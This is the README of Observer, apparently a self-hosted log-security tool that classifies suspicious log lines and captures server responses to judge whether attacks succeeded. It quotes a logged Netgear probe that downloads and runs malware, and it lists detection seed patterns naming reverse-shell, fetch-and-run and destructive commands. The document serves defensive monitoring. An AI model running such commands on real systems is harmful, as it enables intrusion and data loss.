



# Observer

**Self-hosted log security that separates attack attempts from attack impact.**

[](LICENSE) [](go.mod) []()

Observer is a single Go binary that watches your Docker and Linux logs, classifies suspicious activity, and, when it can, captures the server's actual response to answer the question most security tools skip:

> **Did the attack actually work?**

Observer is for people who want fewer security alerts, not fewer security signals.

**Latest release: v1.5.1.** v1.4.0 made it survive floods. v1.5.0 added opt-in request lineage so proxy/backend observations can coalesce when their trusted ID, routing, and verdict timing line up. v1.5.1 lets you write `captain-nginx` instead of the full Docker task name.

---

## Coverage envelope

Observer confirms attack outcomes when the impact shows up in the channels it watches: plaintext HTTP responses on the reverse-proxy-to-backend hop, container and host log lines, and timing evidence.

REC watches plaintext HTTP inside container network namespaces. The supported pattern is TLS terminated at the edge with a plaintext proxy-to-backend hop. Traffic that stays encrypted past the proxy is unreadable to REC.

Impact that never crosses those channels is invisible: out-of-band exfiltration, in-memory implants beaconing out, reverse shells on unwatched ports. Observer narrows "was I attacked" to "did anything observable come back". It does not answer "am I compromised" in full generality. See [What Observer is not](#what-observer-is-not) for the rest of the boundary.

---

## Why Observer exists

Put a server on the public internet and the probes start within minutes. The shape is familiar:

```
GET /.env
GET /wp-admin/setup-config.php
GET /containers/json
GET /actuator/env
POST /cgi-bin/[some-router-CVE]
```

Most of these fail. The path doesn't exist, the auth is wrong, the version isn't vulnerable, the upstream rejected it. The attacker moves on.

Tools that only look at the request can't tell the difference. Signature matches, alert fires, whether or not the thing actually worked. Multiply that by a botnet and you get the experience every operator knows: an inbox full of alerts about attacks that hit a 404.

Observer is built around the reality that **most probes fail**. Failed probes should become probe intelligence, not panic. The things that should interrupt you are proven impact and explicit policy hits. Everything else gets recorded so you can review it on your own time.

The product decision: **notify on observable impact, malicious direct-dispatch matches, and explicit policy escalations.** Non-HTTP malicious log classifications can notify without HTTP proof; with REC off, HTTP malicious pattern matches can also take that direct path. Allow/suppress traffic is counted rather than archived as findings. Delivery still depends on what channels you configured and their rate limits, and under a flood Observer sheds work and counts what it shed. It is not a raw log archive and doesn't pretend to be.

---

## See it in action

Three examples from my own deployment. A real credential harvest against a decoy file, caught twice by two different paths. A real probe that failed. And a controlled exploit I fired at a deliberately vulnerable test container. All three look scary at the request layer. Observer treats them differently because of what actually came back.

### Successful attack, caught cold, then caught from cache: the `.env` canary

I planted a fake `.env` in the WordPress webroot on my soak box, loaded with Canarytokens AWS keys and a full Laravel-style set of secrets. Bait, on purpose. Real attackers found it within a day.

**Sept 12, 04:48 AM:** first pull. Observer had never seen this shape before, so it went to the LLM (Tier 1, `malicious` at 0.95), the coordinator opened an investigation, REC captured the actual HTTP 200 off the wire inside the nginx namespace, and the evidence check read the body: `.env` contents, credentials everywhere. Escalated, email sent. Zero of that was a seed or a regex. It was the model reading the log line and then Observer proving it with the response.

**Sept 15, 11:24 AM:** a different attacker pulls the same file. This time the nginx line matched the pattern learned from the Sept 12 event, so no Tier 1 LLM call. But a cache hit is not a verdict on its own. It still opened an investigation, still captured the response, still ran the evidence check, still escalated, still emailed. The pipeline treats "we've seen this attack shape before" as a reason to skip the classification cost, not a reason to skip the proof.


Note the **Cache lineage** line: this event was classified by a pattern learned from `evt_9fad64d1877d259d`, the Sept 12 catch. And the response evidence panel is what the server actually returned to the attacker, redacted structurally before persistence as an evidence preview. REC temporarily retains bounded raw preview bytes in memory.


One more thing in that frame. The same request shows up on the backend's Apache log too, and its classification reason ends with `(coalesced with evt_2d16bdece12344b6)`. That's request lineage folding the proxy duplicate into the edge finding instead of paging me twice.


If anyone ever uses those AWS keys, Canarytokens will tell me. Kill chain closed, on camera.

### Failed attack: Netgear botnet probe

An IoT botnet tried to exploit a Netgear router vulnerability to download and execute malware:

```
GET /setup.cgi?cmd=rm+-rf+/tmp/*;wget+malware;sh+netgear
```



What Observer did:

1. **Tier 1 classification (as it ran at the time):** the LLM identified command execution via `setup.cgi` and returned `malicious` at 0.78 confidence. Only the exact normalized hash was cached, no broad pattern was learned. Today the flow is stricter: a Tier 1 `malicious` verdict on an HTTP event is capped to `alert` before caching, and a plain 404 usually never reaches the LLM at all.
2. **Coordinator held for evidence:** instead of firing immediately, the finding was held through a 5-second evidence window (10-second finalize) while REC delivered the response.
3. **REC captured the HTTP response:** the reverse proxy returned `404 Not Found`. In this historical demonstration, the response was treated as a failed probe; a 404 alone is not proof of no side effects.
4. **Final verdict: `recon` (downgraded by evidence).** Recorded as probe intelligence. **No email**, no incident.

That's one alert saved. Multiply by the thousands of automated probes a public server sees daily. Stored `recon` findings are queryable at `/api/findings?verdict=recon`. Noise that got suppressed deterministically is counted, not stored as a finding.

### Successful attack: CVE-2025-55182 (React2Shell)

We deployed a vulnerable Next.js 15.0.0 test container and fired the public PoC for [CVE-2025-55182](https://nvd.nist.gov/vuln/detail/CVE-2025-55182), a CVSS 10.0 pre-auth RCE that achieved arbitrary code execution as root. The attacker dumped `/etc/passwd`:



```
[ALERT] Source=docker:srv-captain--react2shell-test
  Reason=System credential file contents (/etc/passwd) in output
  MatchedVia=seeded

[ESCALATE] Source=docker:srv-captain--react2shell-test
  Reason=System credential file contents (/etc/passwd) in output
  MatchedVia=seeded (non-HTTP malicious, direct dispatch)
```

A seeded pattern matched `root:x:0:0:root` in the container's output. Verdict: `malicious`, instantly, deterministically. **Email sent. Zero LLM calls.** The credential dump tripped a hard-coded seed before the AI was even consulted.

Same category of scary at the request layer, two different detection paths: the Netgear probe was cleared by response evidence, the React2Shell dump tripped a seed on file contents in a non-HTTP log and never needed Tier 2 at all.

---

## How it works

Observer's pipeline is deterministic-first. The LLM gets consulted when the deterministic layers can't resolve an event (Tier 1), and it can also review captured response evidence for something that was already classified (Tier 2). On my soak box the cache hit rate measures about **87 to 91%**. That's my traffic on my box, not a promise, and it counts cache hits, not the share of traffic that never touches the model.

```
log line arrives (Docker container or journald)
   │
   ▼
policy engine            SSH logins, user creation, privilege escalation
   │                     runs first; identity-based, trusted-IP allowlist
   ▼
deterministic filters    stack frames, failed HTTP probes, nginx missing files
   │                     (inside the analyzer)
   ▼
pattern store            4 buckets × 4 tiers (hash → prefix → regex → contains)
   │                     seeded malicious patterns live here as contains-tier entries
   │                     known-good?  → skip silently
   │                     known-noise? → suppress silently
   │                     known-bad?   → coordinator holds for evidence
   │                     unknown?     → goes to LLM
   ▼
LLM classifier           local Ollama by default; OpenAI-compatible optional
   │                     eligible classifications cached; evidence may still need T2
   ▼
coordinator              correlates request with response
   │                     joins against ↓
   ▼
REC                      AF_PACKET in selected/discovered namespaces
                         bounded TCP reassembly and HTTP response previews
                         (only traffic visible on the sniffed device)
   │
   ▼
verdict                  recon       → record as probe intelligence, no email
                         alert       → record unresolved, no notification here
                         escalated   → enqueue configured notification
                         evidence_unavailable → log, mark honestly
```

### Pipeline layers

1. **Policy engine**: Built-in rules for SSH logins, user creation, privilege grants, and journald lines mentioning `authorized_keys`. Runs first. SSH trust decisions use a trusted-IP allowlist. These are log rules, not a filesystem watcher or proof that every matched action is hostile.
2. **Deterministic filters**: Recognized stack frames, failed HTTP probes, and nginx file-not-found errors. These paths resolve without an LLM call unless a disclosure guard requires further analysis.
3. **Pattern store**: Four buckets (allow / malicious / alert / suppress), each with four tiers (hash → prefix → regex → contains). Matching checks malicious, alert, allow, then suppress; within each bucket it checks source-scoped patterns before global patterns. In-memory lookups, no network round-trip. Curated seed strings are global contains-tier malicious patterns. Non-HTTP malicious matches can dispatch directly; HTTP matches still follow HTTP routing and evidence rules. Measured soak-box cache hit rate is about **87–91%**, depending on operator and traffic.
4. **LLM classifier**: OpenAI-compatible chat-completions API. Intent classification plus separate evidence review; HTTP Tier 1 intent alone cannot establish confirmed impact. Local Ollama by default, hosted endpoint optional. Bounded retry queue handles backpressure and counts overflow drops.
5. **REC (Response Evidence Capture)**: AF_PACKET capture with bounded TCP reassembly via gopacket, in selected or automatically discovered container network namespaces (with host fallback). Captures response previews and applies structural redaction before evidence review. The VIP lane prioritizes demanded evidence, but finite entry, byte, and lifetime limits can still evict or reject it.
6. **Coordinator**: Groups alerts, holds for evidence (5 s evidence window, 10 s nominal finalize; an in-flight evidence check can extend the wait), downgrades failed probes, and dispatches findings. HTTP evidence escalations can notify; unresolved HTTP findings do not.
7. **Catch-all suppression**: Tracks response fingerprints (host, method, status, body hash) across distinct paths and verifies candidates before using them to downgrade repeats. A separate REC-miss fallback can match byte similarity to a previously verified benign response; a byte count alone is not proof of failure.
8. **Evidence reconciler**: Checks every 60 s for eligible unresolved HTTP `alert`/`malicious` findings older than 15 minutes, marking them `evidence_unavailable` when they have no attached available evidence. Findings with available evidence remain pending for review rather than being relabeled unavailable.

The whole thing ships as one Go binary. No external database, no state service. SQLite and pattern files live locally (the systemd install puts them in `/var/lib/observer`). It builds without CGO (see [Build from source](#build-from-source)). The LLM endpoint is a separate dependency. Hosted sync and notification providers are additional dependencies when enabled.

**Flood behavior (v1.4.0 onward):** Observer has now ridden through two real xmlrpc brute-force floods on my soak box. Findings kept resolving mid-flood and the review queue didn't pile up. Queues and evidence storage are bounded, so under enough load it sheds work, and every shed event is counted by reason in `/api/stats` and shown in the dashboard's health banner. It recovers on its own once the queues drain, and the counters keep the history. This is counted loss with recovery. It is not zero loss, and I won't claim it is.

**Evidence boundaries:** supported, complete XML-RPC responses receive a bounded structural redaction; unsupported, malformed, incomplete, or oversized XML fails closed to metadata only. Served PHP source is also metadata-only and can trigger deterministic disclosure escalation without sending source code to the LLM. These paths no longer have to stall solely because XML-RPC/PHP previews were unavailable. REC byte budgets account for retained raw/redacted bodies, entry overhead, and VIP ownership; they are not a whole-process RSS cap.

**Investigation partitioning:** the coordinator key includes the parsed response byte count (or `unknown`) so a different-length response can open a separate investigation. In this partitioning, byte counts are admission hints only, never evidence of success or failure. Equal-length, same-status divergent outcomes can still share an investigation; missing counts and compression/topology differences can split observations. This is separate from trusted-ID request lineage below.

---

## Local-first by default

Observer's binary defaults point at a local Ollama instance:

```bash
LLM_URL=http://llm:11434
LLM_MODEL=qwen2.5:7b
```

This means:

- **With local Ollama, classification never leaves your network.** That covers the LLM path specifically. Hosted dashboard sync and external notification channels are separate opt-ins, and if you turn those on they send finding and decision records off-box even with Ollama local.
- **No per-call API charge.** You supply the compute. Anything hosted or third-party you opt into has its own pricing.
- **Offline works.** Stage the binary and the Ollama model ahead of time, point `LLM_URL` at the LAN, leave sync and notifications off. Installing and updating from GitHub still needs internet, obviously.

The installer asks which provider you want before configuring: Ollama or an OpenAI-compatible endpoint. Observer appends `/v1/chat/completions` to `LLM_URL` and sends `max_completion_tokens` and `reasoning_effort`; use a base URL without a trailing `/v1` and an endpoint/model that accepts those fields and returns the expected structured verdict. Provider compatibility depends on that contract.

For regulated environments, that's usually the first privacy objection handled: your logs don't have to leave your network to get classified.

---

## Verdict types

| Verdict | Meaning | Emails? |
|---|---|---|
| `recon` | A request routed as failed-probe intelligence; no impact was established on that path. Many ordinary 4xx probes are suppressed earlier and produce no finding row. | No |
| `alert` | Suspicious request, outcome unclear. Recorded with available evidence. | No on the current finding routes |
| `malicious` | Can represent evidence-based escalation, a malicious non-HTTP classification/seed match, or an explicit policy escalation. The verdict alone is not proof of compromise; inspect classification, evidence, and resolution state. | Eligible on escalation/direct-malicious paths; delivery is conditional |
| `policy` (route, not stored verdict) | Built-in log rules plus the operator-managed trusted-IP list. Escalating hits are stored as `malicious` / `policy_escalated` and can notify; trusted-IP SSH logins and failed sudo resolve to `allow` / `alert` without notification. | Conditional |
| `allow` | Known-safe traffic shape. Eligible matches reuse the cached verdict; disclosure guards and operator corrections can invalidate it. | No |
| `suppress` | Known-noise pattern (operational scanners, health checks). Counted but not surfaced. | No |
| `evidence_unavailable` (resolution state) | An eligible unresolved HTTP finding timed out without attached available evidence. The original verdict remains. | No notification from timeout finalization |

> `evidence_unavailable` is a resolution state applied to an eligible finding without attached available evidence. It does not prove that no response ever crossed the wire, and it does not replace the finding's original verdict.

Observer works hard not to escalate failed probes and known noise. Disclosure checks can override suppression, and policy hits escalate on their own without needing response evidence. But those checks only see what shows up in a log format Observer understands, in time to matter. A missed or late response can still leave real impact undetected. That's the honest boundary.

---

## Cost on my own deployment (3 servers, 30 days)

Below is the OpenAI usage chart from my own deployment, running Observer across three production servers for a 30-day window:



**Total spend: $34.02** for that 30-day window across my 3 servers: 35,888 LLM requests, ~88M tokens. Those are API requests, not distinct events. Classification, evidence reclassification, and catch-all verification can each call the model. It's one real deployment's bill from that month, not a forecast for yours.

That total includes two spike days (Apr 28 at $9.24 and Apr 29 at $11.24) from a runaway-loop bug I shipped during development. Take those out and the other 28 days cost **$13.54**, about **16 cents per server per day**. That's me subtracting two bad days, not a clean month.

Per request that works out to around **$0.00095**, under a tenth of a cent. One event can take more than one request.

The reason it's cheap is that the deterministic layers eat most of the traffic before the model ever sees it. Measured cache hit rate on my soak box is about **87 to 91%** (my traffic, your mileage will vary). Tier 2 evidence review can still fire after a Tier 1 cache hit, and XML-RPC fault bodies are deliberately never cached for reuse because they carry redacted content, so repeated Tier 2 calls on those are expected. Your cost tracks how novel your traffic is, how much evidence gets reviewed, and what model you point it at.

And again: **this is the cloud-API path, which is opt-in.** The default Ollama path costs $0 in API spend regardless of event volume.

---

## Install

One command on a Linux amd64 server with systemd and curl (that's what the published binary targets):

```bash
curl -fsSL https://vaultguardian.io/install.sh | sudo bash
```

Observer installs a systemd service and reads container network namespaces, so it needs root.

## Manual install

If you'd rather not pipe a script to root (reasonable, especially on a security tool), install by hand. Run this from a checkout of the release you are installing, containing `observer.env.example` and `observer.service`. The example below pins v1.5.1 so the binary, checksum, and checked-out config/unit can match. Review the env example: it enables journald and REC and points Ollama at localhost; the interactive installer detects sources and asks for your settings.

```bash
(
set -e
RELEASE=v1.5.1
# Download the binary and checksum matching your checkout
curl -fsSL https://github.com/VaultGuardian/observer/releases/download/$RELEASE/observer -o observer
curl -fsSL https://github.com/VaultGuardian/observer/releases/download/$RELEASE/observer.sha256 -o observer.sha256

# Check download integrity, then install the binary
sha256sum -c observer.sha256
sudo install -m755 observer /usr/local/bin/observer

# Create the data and config directories
sudo mkdir -p /var/lib/observer /etc/vaultguardian

# Install the config, then edit it (set HOSTNAME, the LLM endpoint, optional email)
sudo cp observer.env.example /etc/vaultguardian/observer.env
sudo chmod 600 /etc/vaultguardian/observer.env
sudo "${EDITOR:-vi}" /etc/vaultguardian/observer.env

# Install the systemd unit and start the service
sudo cp observer.service /etc/systemd/system/observer.service
sudo systemctl daemon-reload
sudo systemctl enable --now observer
)
```

The one-liner is the convenience path. It also installs the `vaultguardian` wrapper, walks you through configuration, and verifies the published SHA256 before installing the downloaded binary. The short URL redirects to the GitHub raw installer:

```bash
curl -fsSL https://raw.githubusercontent.com/VaultGuardian/observer/main/install.sh | sudo bash
```

The SHA256 check is fail-closed. A mismatch aborts the install, and so does a *missing* checksum: if no `observer.sha256` can be fetched for the release, the installer refuses to proceed rather than dropping an unverified binary into a root-run systemd service. Every release publishes `observer.sha256` next to the binary. If you really want to accept a missing or mismatched checksum, opt out explicitly (this doesn't pick an older release or a local dev build for you, it just stops the installer from refusing):

```bash
# from a downloaded copy
sudo OBSERVER_ALLOW_UNVERIFIED=1 bash install.sh

# or with the one-liner
curl -fsSL https://raw.githubusercontent.com/VaultGuardian/observer/main/install.sh | sudo OBSERVER_ALLOW_UNVERIFIED=1 bash
```

`vaultguardian update` does the same thing: fetches the latest release binary and checksum from GitHub, verifies, restarts. Same fail-closed rule, same opt-out.

The honest caveat: this is a download-integrity check, not a trust check. The checksum is fetched from the same release as the binary, so it catches a truncated or corrupted download, not a tampered release. Anyone who can replace the binary can replace the checksum alongside it. Release signing, which would make this tamper-evident, is planned.

The `vaultguardian` CLI is optional and only installed by the script. Manual installs operate the service directly with `systemctl` and `journalctl`, for example `systemctl status observer` and `journalctl -u observer -f`.

The installer prompts for:

- LLM provider (Ollama or an OpenAI-compatible chat-completions endpoint). It probes for a local Ollama and recommends it if found. Picking Ollama doesn't install Ollama or pull the model for you, those need to already be there.
- LLM model name
- Server nickname (used in alert emails; defaults to system hostname)
- Dashboard API port (default `9090`)
- Resend API key, alert destination address, and sender ("From") address (optional). The default `onboarding@resend.dev` sender only delivers to the email on your own Resend account, so it's fine for testing and useless for anyone else. Use a verified domain for real recipients. See [Resend's sandbox restriction](https://resend.com/docs/knowledge-base/403-error-resend-dev-domain).
- Whether to enable Response Evidence Capture (REC)
- A hosted dashboard pairing code (optional). Blank keeps a fresh install local-only, or leaves an existing pairing alone on a reinstall. You can pair later with `vaultguardian pair --url https://vaultguardian.io <code>` (the `--url` is required the first time).

Re-running the installer over an existing install detects `/etc/vaultguardian/observer.env` and keeps it. Your settings survive, the config prompts are skipped, and it refreshes the binary, systemd unit, and CLI wrapper. It'll still ask for a pairing code; blank keeps whatever pairing you had. To change settings, edit the env file and `systemctl restart observer`. For a binary-only upgrade, `vaultguardian update` is the shorter path.

Docker containers get watched if the Docker socket is there. journald gets watched if `journalctl` is there (with the built-in and operator-configured exclusions, so it's not every line on the host). A bare server with nothing but `sshd` still gets journald classification and the policy engine. Email alerts need the notification credentials, same as anywhere.

After install, manage with the CLI:

```bash
vaultguardian status          # Service status + recent logs
vaultguardian logs            # Tail logs
vaultguardian stats           # Pipeline performance
vaultguardian rec status      # REC coverage + port status
vaultguardian pair --url https://vaultguardian.io <code>  # First-time pairing
vaultguardian update          # Update to latest release
vaultguardian update v1.5.1  # Update to a specific version
vaultguardian restart         # Restart observer
vaultguardian version         # Current + available versions
vaultguardian uninstall       # Remove observer (data preserved)
```

Runs on Linux with systemd. REC additionally needs AF_PACKET and network-namespace support plus the privileges to use them. I develop against Debian/Ubuntu and test on CapRover boxes; I don't have a formal distro matrix, so run `vaultguardian rec status` after install and it'll tell you what it can and can't see.

---

## Configuration

Settings and secrets are environment variables, loaded from `/etc/vaultguardian/observer.env` (chmod `0600`, root only) by the systemd unit. Notification routing and rate limits live in `$DATA_DIR/notifications.yaml` (normally `/var/lib/observer/notifications.yaml`). Quiet hours exist in that file's format but aren't enforced yet. The defaults in the tables below are the binary's defaults; the installer and env example pick different values in a few places. Full reference in [`docs/configuration.md`](docs/configuration.md).

### Core

| Variable | Default | Description |
|---|---|---|
| `DATA_DIR` | `/data` | Local pattern files, SQLite, and notification config; installer/env example use `/var/lib/observer` |
| `DOCKER_SOCKET` | `/var/run/docker.sock` | Docker socket path |
| `JOURNALD_ENABLED` | `false` | Set exactly `true` to watch host journald; env example enables it and installer detects availability |
| `EXCLUDE_CONTAINERS` | | Comma-separated container names to skip |
| `JOURNALD_EXCLUDE_UNITS` | | Additional systemd units to suppress |
| `HOSTNAME` | (empty; falls back to system hostname) | Label for this server, included in alert emails alongside the IP. The installer's "server nickname" prompt writes this. |

### LLM

| Variable | Default | Description |
|---|---|---|
| `LLM_URL` | `http://llm:11434` | API base URL without `/v1`; env example uses `http://localhost:11434`. Endpoint/model must accept the request fields described above. |
| `LLM_MODEL` | `qwen2.5:7b` | Model name on the endpoint |
| `LLM_API_KEY` | | Only required if your endpoint demands one |
| `LLM_SLOTS` | `4` | Max concurrent LLM requests |
| `LLM_TIER1_EFFORT` | `low` | Reasoning effort for Tier 1 classification |
| `LLM_TIER2_EFFORT` | `medium` | Reasoning effort for Tier 2 evidence review |

To use OpenAI directly, override the defaults:

```bash
LLM_URL=https://api.openai.com
LLM_MODEL=gpt-5-mini
LLM_API_KEY=sk-xxxxxxxxxxxx
```

> **Cloud caveat.** The cloud path sends the raw, unredacted Tier 1 log line to the provider. Log lines can contain tokens in URLs, request bodies, and other sensitive material. If that is unacceptable, use Ollama. Structural redaction applies to Tier 2 response evidence, not to Tier 1 log lines. Tier 1 redaction before cloud calls is planned.

### REC (Response Evidence Capture)

REC reads plaintext HTTP visible in its capture namespaces. With `REC_NS_CONTAINER` set, it targets that Docker container (for example, `captain-nginx`). With it unset, it discovers public-facing Docker containers and monitors their namespaces, bounded by `REC_MAX_NAMESPACES`; discovery/namespace failures can fall back to host capture with reduced visibility. A Docker reverse proxy with TLS terminated at the edge and plaintext backend traffic is the demonstrated topology, not a universal coverage guarantee. Inspect `/api/rec/coverage` or `vaultguardian rec status` for actual coverage.

| Variable | Default | Description |
|---|---|---|
| `REC_ENABLED` | `false` | Master switch; env example enables it and installer defaults its prompt to yes |
| `REC_INTERFACE` | (auto) | Interface to sniff |
| `REC_NS_CONTAINER` | (none) | Explicit container namespace override; unset enables Docker namespace discovery with host fallback |
| `REC_PORTS` | `80,8080` | Seed HTTP ports; capture visibility still depends on namespace/interface. Discovery and runtime learning can add ports. |
| `REC_LEARNED_PORT_CAP` | `64` | Cap on runtime-learned ports (`0` to disable learning) |
| `REC_REASSEMBLY_MAX_BODY` | `2048` | Max retained response-body preview bytes during reassembly; not a whole-response size guarantee |
| `REC_REASSEMBLY_STREAM_TTL` | `5s` | Lifetime for an idle reassembly stream |

Additional REC tuning knobs exist (`REC_FLOW_*`, `REC_REASSEMBLY_MAX_BUFFERED_PAGES_*`); see [`docs/configuration.md`](docs/configuration.md) for the full list.

### Dashboard

| Variable | Default | Description |
|---|---|---|
| `DASHBOARD_PORT` | `9090` | Port the API listens on |
| `DASHBOARD_BIND_ADDR` | `127.0.0.1` | Bind address; local only, and the installer never writes anything else |
| `DASHBOARD_KEY_FILE` | `/etc/vaultguardian/dashboard.key` | Path to bearer token file (auto-generated) |
| `DASHBOARD_ALLOWED_ORIGINS` | (none) | Comma-separated CORS allowlist; empty = no CORS headers |

> **Important:** the outbound client needs no change to this local API. It pairs and pushes to a compatible hosted backend. See [pairing and data handling](#hosted-dashboard-pairing) before connecting. The one reason to override `DASHBOARD_BIND_ADDR` is serving the API to your own LAN or to a reverse proxy on this host; do that behind TLS and authentication. Observer logs a warning when the dashboard is bound to a non-loopback address.

### Email alerts (optional)

| Variable | Default | Description |
|---|---|---|
| `RESEND_API_KEY` | | Resend API key for delivery |
| `ALERT_EMAIL_TO` | | Destination address for alert emails |
| `ALERT_EMAIL_FROM` | `VaultGuardian Observer <onboarding@resend.dev>` | Sandbox sender is restricted to your Resend account email; use a verified domain for other recipients. |

When configured, escalation emails include the `HOSTNAME` (above) and the server's primary IP, so it's obvious which machine fired the alert when you're running Observer on multiple servers.

### Proxy topology instrumentation (optional)

One HTTP request that crosses a proxy topology (edge nginx to backend app) gets logged twice, once by each hop. Uninstrumented, Observer sees two independent observations: usually two findings, two evidence lookups, and on the highest-severity path, two emails. (Coordinator grouping and suppression sometimes collapse them anyway, so it's not always exactly two, but on my CapRover box it was two for everything.) Request lineage removes that duplicate, and only when a shared trusted ID proves the two lines are the same request.

This is **opt-in and off by default**. Leaving it off changes nothing: the outcome commits straight through (notify, then write) with no lineage extraction, no lock, no bookkeeping. Byte-identical to before the feature existed.

> **Pass-through cost once it's enabled.** A log line with no trusted ID still commits synchronously, same order, callbacks outside any lock. The one addition: the sink takes its mutex once per outcome purely for admission and shutdown accounting (constant work, no lineage tracking, no grouping, no allocation). That's what lets an ordered shutdown prove every accepted finding reached the store before the database closes. Feature-off stays fully lock-free.

To collapse the pair into one finding, have the edge proxy stamp a trusted per-request ID, have both hops log it, then declare the edge as the anchor source. Correlation happens **only** through that ID. Observer never guesses a pairing from timing, response shape, or byte counts, because in an identical-response flood an attacker can manufacture those guesses. No ID, no correlation. Double-counting one attack beats merging two.

**1. CapRover root nginx template** (the one that generates `/etc/nginx/nginx.conf`): append a trailing ` vgrid=$request_id` to the existing `log_format main`. The root-level `access_log ... main if=$ip_in_log` picks it up for every app.

This is an **edit illustration**, not a copy-paste line: keep your own existing fields and only add the suffix:

```nginx
log_format main '... your existing fields ...' ' vgrid=$request_id';
```

Example shape (host and IP replaced with documentation values):

```
203.0.113.42 - - [15/Sep/2026:04:01:00 +0000] "app.example.com" "GET /?vg-lineage-test=3 HTTP/2.0" 200 70037 "-" "curl/8.5.0" "-" vgrid=2fb2cf19c82b36ceb7f89d50b381fcf1
```

**2. Per-app proxy template** (the app's main proxy `location`): forward the ID to the backend, right after the `X-Forwarded-Proto` line. Do **not** add an `add_header`. The ID must never be echoed back to the internet:

```nginx
proxy_set_header X-VaultGuardian-Request-ID $request_id;
```

**3. Apache backend:** mount a host file `/var/lib/vg-lineage/zz-vg-lineage.conf` to `/etc/apache2/conf-enabled/zz-vg-lineage.conf`, redefining `combined` to log the forwarded header:

```apache
LogFormat "%h %l %u %t \"%r\" %>s %O \"%{Referer}i\" \"%{User-Agent}i\" vgrid=%{X-VaultGuardian-Request-ID}i" combined
```

**4. Declare the anchor source** in Observer's environment:

| Variable | Default | Description |
|---|---|---|
| `LINEAGE_ANCHOR_SOURCES` | (none) | Comma-separated trusted ingress sources, e.g. `captain-nginx`. v1.5.1 matches both exact names and names normalized by removing an optional `docker:` prefix and Swarm `.N.<taskid>` suffix on both sides. Empty = feature off. |

Only observations from an anchor source can anchor a lineage. Backend-only IDs (a backend that labels its own requests) never coalesce, so nobody can forge their way into a merge. Full names still match exactly, and non-Docker sources like `journal:sshd` match exactly. The ID must be 32 lowercase hex characters in the trailing `vgrid=` field; missing or `vgrid=-` means no correlation, malformed gets counted as invalid. Two anchor observations claiming the same ID is an integrity failure: that lineage gets poisoned and everything in it emits independently. The token is stripped before normalization, so it never touches normalized hashes, patterns, or cache identity.

Make the nginx changes in CapRover's templates (not by hand-editing the generated file) and mount the Apache conf as an app volume; that's the setup that survives redeploys. Redeploy the affected apps, then restart Observer after editing its env. The edge must overwrite any incoming request-ID header with its own (nginx's `$request_id` does this by construction), and the backend should only be reachable through that edge. And again: no `add_header`.

**Verified live on my soak box:** one request, two observations (nginx edge + WordPress backend), one finding. The highest-severity observation becomes the finding; on a tie the edge anchor wins, so you get the real vhost and the attacker's path spelling.

> **Known limitation: the settle window.** The ~3 second window starts when a lineage's first **final verdict** reaches the sink, not when the request enters the pipeline. If the two verdicts land more than ~3 seconds apart, the earlier row commits before its sibling arrives and you get two findings. That fails open to a duplicate, never to a lost finding.

> **Notification boundary.** Alerts are never delayed for the settle window. Anchored lineages dedupe successfully sent notifications, but an observation that fires before the anchor arrives, or a later severity upgrade, can still send. One coalesced row is not a guarantee of exactly one email.

Watch `pipeline_health.correlation` in `/api/stats`: `multi_observation_groups_total` and `observations_absorbed_total` climbing means duplicates are being removed. `anchor_conflicts_total` and `invalid_ids_total` should stay near zero. (`pipeline_health.coordinator.hostless_keys` is a cumulative parser-health counter for the running process, not an adoption gauge. It only goes up until a restart resets it.)

> **REC-disabled boundary.** Coalescing only applies to outcomes that flow through the sink: the recon/status/bare-IP shortcuts and coordinator dispatch. With REC off, HTTP events that take the direct-dispatch branch skip the sink and won't coalesce. The shortcuts still do. So it's not a universal one-finding-per-request mode without REC.

> **Not a flood guarantee.** This layer never creates findings and doesn't promise "N requests, N findings": the coordinator already huddles identical-shape requests upstream and floods shed counted work before anything reaches the sink. Missing IDs, anchor conflicts, bypass paths, and verdict timing can all leave duplicates. Fail open, every time.

---

## What it catches

**Policy engine (deterministic, runs before the LLM, needs the relevant journald lines to be watched):**

- Successful SSH login from an IP not on your trusted list → escalation (and an email if you've set one up)
- New user created (`useradd`) → escalation
- Privilege grant (`usermod -aG sudo`) → escalation
- Journald line mentioning `authorized_keys` → escalation (it's a log match, not a file-integrity check)
- Failed sudo attempts → alert

**Seed patterns (literal contains-matches, no LLM needed):**

These mark matching text as malicious. A command string showing up in a request isn't proof it ran: non-HTTP matches (container output, journald) notify directly, HTTP matches still go through the status and evidence paths above.

- System credential file contents (`root:x:0:0:root`) in an observed log line → malicious seed match
- Private keys (`BEGIN RSA PRIVATE KEY`, `BEGIN OPENSSH PRIVATE KEY`, `BEGIN EC PRIVATE KEY`, `BEGIN PRIVATE KEY`) → malicious seed match
- Reverse shells (`bash -i >& /dev/tcp`, `nc -e /bin/sh`) → malicious seed match
- Remote code execution chains (`curl | sh`, `wget | sh`, `base64 -d | bash`) → malicious seed match
- Destructive commands (`rm -rf /`) → malicious seed match

**LLM classification (when it sees them; eligible results can be cached):**

- SQL injection, shell injection, PHP wrappers, encoded exploits
- Path traversal, reconnaissance probes
- Successful vs. failed attack outcomes (intent × outcome)
- Protocol mismatches, binary probes, scanner noise
- Data exfiltration patterns (command output, env dumps, credential leaks)

**Deterministic suppression (matched noise skips the LLM unless a disclosure guard overrides):**

- Failed HTTP probes: parsed `400`/`403`/`404`/`405`/`410` responses are suppressed independent of request payload unless a high-risk disclosure guard overrides. The guard checks the log line and makes a best-effort one-shot REC lookup for supported disclosure formats. With REC disabled or a capture not yet available, that lookup cannot protect the shortcut. A 4xx alone does not prove that an exploit had no side effects. XXE, deserialization, Log4Shell, and other body-driven attacks are only detectable here if relevant evidence reaches a watched channel and a supported detector recognizes it.
- Application stack traces (Node.js, Python, Go, Java)
- Nginx file-not-found errors

SSH failure logs get a dedicated normalizer so repeated shapes reuse learned classifications, but there's no deterministic suppress gate for SSH brute force or UFW/iptables blocks in this version. On a cache miss those go to the LLM.

---

## Dashboard

### Hosted dashboard (pairing)

The optional multi-server dashboard lives at [vaultguardian.io/dashboard](https://vaultguardian.io/dashboard). Observer pushes findings, LLM decisions, pipeline stats and snapshots to the hosted database. The current website implements pairing, ingestion and signed command polling; it does not connect inbound to the local API.

**The connection is outbound only.** Observer pairs once, then pushes to the dashboard on its own schedule. Nothing connects back to your server: there is no inbound port to open, no firewall rule to add, no security group to edit, and no reason to change `DASHBOARD_BIND_ADDR`.

To connect a server:

1. Open [vaultguardian.io/dashboard](https://vaultguardian.io/dashboard) and generate a pairing code.
2. On the server, redeem it:

```bash
vaultguardian pair --url https://vaultguardian.io VG-XXXXX-XXXXX-XXXXX-XXXXX-XXXXXX
```

